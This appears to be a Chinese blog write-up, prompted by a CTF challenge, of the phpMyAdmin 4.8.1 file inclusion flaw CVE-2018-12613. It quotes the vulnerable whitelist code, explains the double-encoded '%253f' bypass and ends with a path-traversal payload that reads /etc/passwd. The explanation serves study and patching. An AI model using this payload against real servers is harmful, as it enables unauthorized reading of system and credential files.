

# phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613） - My_Dreams - 博客园

> 原文：[`www.cnblogs.com/zzjdbk/p/13756315.html`](https://www.cnblogs.com/zzjdbk/p/13756315.html)

> 今天刷到了 BUU 上的一道题，那道题用到的就是 phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）这个漏洞，所以在此总结一下

# 受影响版本

phpmyadmin 4.8.{1,2}

# 环境

https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613

# 分析

先来看源码

```
1 if (! empty($_REQUEST['target'])//是否存在 target 参数
2     && is_string($_REQUEST['target'])//target 的值书否为字符串
3     && ! preg_match('/^index/', $_REQUEST['target'])//正则匹配是否以 index 开头
4     && ! in_array($_REQUEST['target'], $target_blacklist)//在黑名单内的过滤掉
5     && Core::checkPageValidity($_REQUEST['target'])//Core 类中的 checkPageValidity 方法
6 ) { 7     include $_REQUEST['target']; 8     exit; 9 }
```

黑名单

```
1 $target_blacklist = array (//黑名单
2     'import.php', 'export.php'
3 );
```

主要代码

```
 1 public static function checkPageValidity(&$page, array $whitelist = []) 2    {
 3        if (empty($whitelist)) {
 4            $whitelist = self::$goto_whitelist;
 5        }
 6        if (! isset($page) || !is_string($page)) {
 7            return false;
 8        }
 9 
10        if (in_array($page, $whitelist)) { 11            return true; 12 } 13 
14        $_page = mb_substr( 15            $page,
16            0,
17            mb_strpos($page . '?', '?') 18 ); 19        if (in_array($_page, $whitelist)) { 20            return true; 21 } 22 
23        $_page = urldecode($page); 24        $_page = mb_substr( 25            $_page,
26            0,
27            mb_strpos($_page . '?', '?') 28 ); 29        if (in_array($_page, $whitelist)) { 30            return true; 31 } 32 
33        return false; 34    }
```

其实主要的代码很好理解，由于多了第二次的解码和判断，导致当传入二次编码的`?`（即`%253f`）时会取出导致 db_sql.php 作为参数从而绕过白名单进而达到文件读取的目的



任意文件读取

payload:

```
index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

